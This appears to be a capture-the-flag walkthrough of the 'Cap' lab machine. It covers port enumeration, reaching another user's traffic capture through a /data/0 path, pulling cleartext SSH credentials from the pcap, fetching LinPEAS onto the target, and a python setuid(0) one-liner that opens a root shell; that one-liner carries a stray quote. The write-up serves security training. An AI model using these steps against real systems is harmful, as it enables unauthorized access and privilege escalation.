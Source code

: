 # Cap

## Enumeration

Nmap as always, gives 3 ports open : SSH, FTP , HTTP.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption><p>NMAP output.</p></figcaption></figure>

Before checking what's hosted on port 80, I'll try getting what's available on the ftp server and download it on my machine using this command:

```shell-session
$ wget -m --no-passive ftp://annonymous:annonymous@cap.htb
```

Which resulted in nothing. So we move on. Here's what we found on port 80

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Poking around a bit, letting out nmap and ffuf going on the background we found out that network status is showing us the incoming network traffic to the server:

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Nothing interesting for now, same goes for the IP config panel.

Meanwhile, Ffuf and nmap scripts didn't give us much to exploit.

So looking at the Security snapshot panel which redirected us to /data/7:

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Trying some path traversal didn't work because there's input sanitization.

So upon trying to access another data then the 7th IT WORKED! and intuitively we went to `/data/0` and download the `.pcap` file.

## Wireshark

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## User flag

Looking around the protocols  we found clear-text credentials for the user nathan which connected us successfully through ssh:

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

## Priv esc

The sudo -l command can't be used since we don't have the perms so to enumerate further i downloaded LinPEAS.sh from my custom python http server:

```shell-session
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And then downloaded it with a simple wget command:

```shell-session
$ wget http://10.10.14.60:8000/linPEAS.sh
```

{% hint style="danger" %}
You must put the file you want to download in the same directory from where you launched the python http server to be able to access it.
{% endhint %}

Upon enumeration, we got an interesting file with interesting capabilities:

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

> ## From capabilities(7) — Linux manual page
>
> ```
>        For the purpose of performing permission checks, traditional UNIX
>        implementations distinguish two categories of processes:
>        privileged processes (whose effective user ID is 0, referred to
>        as superuser or root), and unprivileged processes (whose
>        effective UID is nonzero).  Privileged processes bypass all
>        kernel permission checks, while unprivileged processes are
>        subject to full permission checking based on the process's
>        credentials (usually: effective UID, effective GID, and
>        supplementary group list).
>
>        Starting with Linux 2.2, Linux divides the privileges
>        traditionally associated with superuser into distinct units,
>        known as capabilities, which can be independently enabled and
>        disabled.  Capabilities are a per-thread attribute.
> ```

Diving into cap\_setuid here's what it does:

In Linux, the CAP\_SETUID and CAP\_SETGID capabilities allow a process to change its UID and GID, respectively, providing control over user and group identity management. Attackers may leverage a misconfiguration for exploitation in order to escalate their privileges to root.

So we need a python script that changes the uid to 0 (root) and simply pop a shell. Here's one:

```python
import os; os.setuid(0); os.system("/bin/bash")'
```

```shell-session
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")''
```

{% hint style="success" %}
And we succesfully got the flag!
{% endhint %}

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>
